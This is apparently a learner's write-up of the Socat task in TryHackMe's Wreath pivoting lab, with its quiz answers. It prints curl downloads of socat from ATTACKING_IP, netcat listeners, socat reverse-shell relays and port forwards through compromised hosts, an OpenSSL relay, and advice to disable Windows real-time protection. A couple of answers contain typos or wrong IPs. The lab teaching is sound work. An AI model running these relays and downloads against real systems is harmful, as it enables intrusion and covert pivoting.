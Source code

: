 **Task 13: Socat**

Socat is basically a command line based utility that establishes two bidirectional byte streams and transfers data between them.\

For installing this in windows you have to turn of the real time real time protection mode...

Socat makes a very good relay: for example, if you are attempting to get a shell on a target that does not have a direct connection back to your attacking computer, you could use socat to set up a relay on the currently compromised machine. 
This listens for the reverse shell from the target and then forwards it immediately back to the attacking box:

![image](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/81ffbef2-13a0-488f-b119-7020e73300f9)

Socat can be think of as a portal between two networks, like in apex wraiths ult uses portal and connects the two areas, it doesnt get affected
from the fact wether portals are between two different machines or in the same machine

Generally speaking, however, hackers tend to use it to either create reverse/bind shells, or, as in the example above, create a port forward.

Well in my experience if you want to this thing more safely use metasploit, it like a combo tool much better then socat.

Before using socat, it will usually be necessary to download a binary for it, then upload it to the box.

For example, with a Python webserver:-

On Kali (inside the directory containing your Socat binary):

`sudo python3 -m http.server 80`
after executing this command you will see something like this on the terminal

![socat1](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/5494696a-8b61-462f-ac92-8bb5e8745ceb)

Then execute the following command:

    curl ATTACKING_IP/socat -o /tmp/socat-USERNAME && chmod +x /tmp/socat-USERNAME

![socat2](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/c80b5b4f-a01d-4169-9ebe-de1a99451d87)

Lets move forward with Reverse Shell Relay..

In this scenario we are using socat to create a relay for us to send a reverse shell back to our own attacking machine (as in the diagram above). 

Like we did in **TASK 7**, by connecting the root machine we collected the private key with the file name id_rsa..

Lets do that again..

1. Start a netcat netcat listener on our attacking box by :

        sudo nc -lvnp 443

2. On the compromised server, use the following command to start the relay:

        ./task13 tcp-l:8000 tcp:ATTACKING_IP:443 &

 By using these commands we can do a reverse shell connection with the target machine...

Now lets see the other topic:

- **Port forwading easy :**

The quick and fast method for creating a port forwader using the socat is quite simple by just opening a port that can listen
to the requests in the compromised server..

The command for doing so is:

    ./socat tcp-l:90,fork,reuseaddr tcp:10.200.57.200:3306 &

This is the command for compromised server i.e 10.200.57.200 and the target is port 3306 of 10.200.57.20..

- **Port Forwarding -- Quiet**

  In similar way we can do quiet like without informaing the target server that we doing a connection on to it

  First of all, on our own attacking machine, we issue the following command:

      socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &

This opens up two ports: 8000 and 8001, creating a local port relay. What goes into one of them will come out of the other. For this reason, port 8000 also has the fork and reuseaddr options set, to allow us to create more than one connection using this port forward.

Next, on the compromised relay server (172.16.0.5 in the previous example) we execute this command:
    
    ./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &

This makes a connection between our listening port 8001 on the attacking machine, and the open port of the target server. To use the fictional network from before, we could enter this command as:

    ./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &

for more just go through the task filee..

**Q.  Which socat option allows you to reuse the same listening port for more than one connection?**

Ans: Its preset in the question only,  'resue' port, thats bascially address so  `resueaddr` is the ans.

**Q. If your Attacking IP is 172.16.0.200, how would you relay a reverse shell to TCP port 443 on your Attacking Machine using a static copy of socat in the current directory?
Use TCP port 8000 for the server listener, and do not background the process.**

Ans: ./socat tcp-l:8000 tcp:172.16.0.200:443

**Q. What command would you use to forward TCP port 2222 on a compromised server, to 172.16.0.100:22, using a static copy of socat in the current directory, and backgrounding the process (easy method)?**

Ans: `./socat tcp-l:2222,fork,reuseaddr tcp:127.16.0.100:22`

**Q. Bonus Question (Optional): Try to create an encrypted port forward or relay using the OPENSSL options in socat. Task 7 of the shells room may help with this(well dont have money for shell room :)).**

Ans: lets try to solve this using `man` command and see what are the options available for OPENSSL connections

![Screenshot_2023-08-04_03_58_11](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/baead344-3bec-4f85-87ec-6a4b4a8eb910)

  The command will look something like this

Chatgpt for the win lol

# Step 1: Generate SSL certificate and private key

        openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

# Step 2: Start the SSL server (destination server)

    socat OPENSSL-LISTEN:443,reuseaddr,fork,cert=certificate.pem,key=key.pem TCP4:destination_server_ip:destination_server_port &

# Step 3: Start the SSL client (source server)

    socat TCP4-LISTEN:local_port,reuseaddr,fork OPENSSL:destination_server_ip:443,cafile=certificate.pem &

# Step 4: Test the encrypted port forward

    echo "Hello, World!" | socat - TCP4:localhost:local_port
  
